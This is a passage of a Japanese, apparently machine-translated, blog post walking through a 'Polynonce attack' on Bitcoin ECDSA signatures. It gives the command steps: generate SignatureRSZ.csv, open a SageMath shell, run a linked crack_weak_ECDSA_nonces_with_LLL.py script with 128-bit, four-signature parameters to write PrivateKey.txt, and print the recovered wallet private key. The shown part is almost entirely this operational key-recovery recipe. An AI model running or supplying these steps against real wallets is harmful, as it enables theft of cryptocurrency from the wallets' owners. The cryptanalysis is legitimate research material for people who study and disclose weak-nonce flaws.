 

<p>この攻撃は次から開始され&nbsp;<code>-tool polynonce_attack</code>&nbsp;、結果はファイルに保存されました。&nbsp;<code>SignatureRSZ.csv</code></p>



<p>成功した結果を確認するには、ファイルを開いてください。&nbsp;<code>SignatureRSZ.csv</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-127-1024x184.png" alt="POLYNONCE ATTACK は、BITCOIN 署名を 128 ビットの任意の高乗の多項式として使用して、秘密キーを取得します。" class="wp-image-2892"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><em></em><em>&nbsp;コマンド</em><em>を実行しましょう&nbsp;:</em><code>SageMath</code><em></em></p>
</blockquote>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>!./sage -sh</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/04/image-98-1024x494.png" alt="POLYNONCE ATTACK は、BITCOIN 署名を 128 ビットの任意の高乗の多項式として使用して、秘密キーを取得します。" class="wp-image-2837"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p>&nbsp;ビットコイン ウォレットの秘密キーを計算するには、パラメータを指定して&nbsp;スクリプト クラック&nbsp;<strong><a href="https://github.com/demining/CryptoDeepTools/blob/main/20PolynonceAttack/crack_weak_ECDSA_nonces_with_LLL.py" target="_blank" rel="noreferrer noopener">_weak_ECDSA_nonces_with_LLL.pyを実行します。</a></strong><strong><code>128 bits 4 sign</code></strong></p>
</blockquote>



<pre class="wp-block-code"><code>python3 crack_weak_ECDSA_nonces_with_LLL.py SignatureRSZ.csv 128 4 &gt; PrivateKey.txt</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>cat PrivateKey.txt</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>


